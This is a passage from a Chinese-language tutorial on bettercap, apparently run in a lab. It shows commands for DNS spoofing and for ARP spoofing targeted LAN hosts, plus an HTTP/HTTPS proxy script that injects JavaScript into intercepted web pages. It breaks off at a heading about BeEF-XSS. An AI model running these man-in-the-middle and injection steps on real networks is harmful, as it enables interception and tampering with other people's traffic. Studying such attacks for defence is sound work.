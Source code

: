 然后我们进行 DNS 欺骗的时候只需要设置 arp.spoof.hosts 这个参数即可

```
#之前我们得先进行arp欺骗
set dns.spoof.hosts host  #设置dns.spoof.hosts里面存放这要欺骗的域名和欺骗后的地址，在bettercap打开的目录下
dns.spoof on  #开启dns欺骗
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXReQvkyzHdv4NYJCVsIBjoibZQCzd8AhXE2DdpAceWiacdW0DDKDHJEQ9gA/640?wx_fmt=png)

很明显，已经欺骗成功了！ 

 ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXReFce09H82zS28ASicaia6aWqA8fWzLIW1JVpc4Tnl4uiaXLL8AgBOqsXkg/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXRe2M9JlOic2SnucwL552aia3GQPrMp6q98CGicBgP7l6ZzuuTT2qxX7dyUA/640?wx_fmt=gif)

脚本注入  

通过进行 ARP 欺骗，我们可以拦截到流量，自然，我们就可以对拦截到的流量进行操作。我们可以对包内的 http 协议的数据包进行代理，然后往里面注入恶意脚本

```
set arp.spoof.targets 192.168.10.13,192.168.10.2    #设置arp欺骗的目标
set http.proxy.script /root/1.js       #往http流量中注入脚本
set https.proxy.script /root/1.js

http.proxy on   #开启HTTP代理
https.proxy on
arp.spoof on   #开启ARP欺骗

##/root/1.js
function onResponse(req,res){
    if(res.ContentType.indexOf('text/html')==0){
        var body=res.ReadBody();
        if(body.indexOf('</head>')!=-1){
            res.Body=body.replace(
                '</head>',
               '<script type="text/javascript">alert("your computer has hacked!")</script></head>'
            );
            }
        }
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXReCYebg3Uiacd53lb6mQcTLtUAfT7WcFVVSE7OHia5HOic7QpVMToxTMdPA/640?wx_fmt=png)

我们用靶机访问一个 http 和 https 协议的站点，可以看到，脚本已经注入请求的网页中了。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXRe6pnGBOvDMDhaA32tK1tW08Nh03PUwgkrsuIvxGmpnwWO89SLQR4KMQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXRellUoeL5nfHDibibwVBeE03iaKciblSaK0CkTHTOFlyAG3CQUGFicHYkb72A/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXRe2M9JlOic2SnucwL552aia3GQPrMp6q98CGicBgP7l6ZzuuTT2qxX7dyUA/640?wx_fmt=gif)

结合 Beef-XSS  
